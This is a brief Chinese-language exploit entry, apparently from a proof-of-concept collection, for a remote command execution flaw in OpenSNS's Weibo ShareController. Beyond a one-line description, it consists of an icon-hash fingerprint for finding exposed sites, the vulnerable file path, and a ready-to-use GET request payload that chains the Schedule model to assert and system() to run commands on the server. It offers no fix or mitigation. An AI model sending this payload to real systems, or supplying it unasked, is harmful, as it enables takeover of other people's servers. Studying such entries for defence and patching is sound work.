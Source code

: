 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210629150345721.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210629150412729.png)

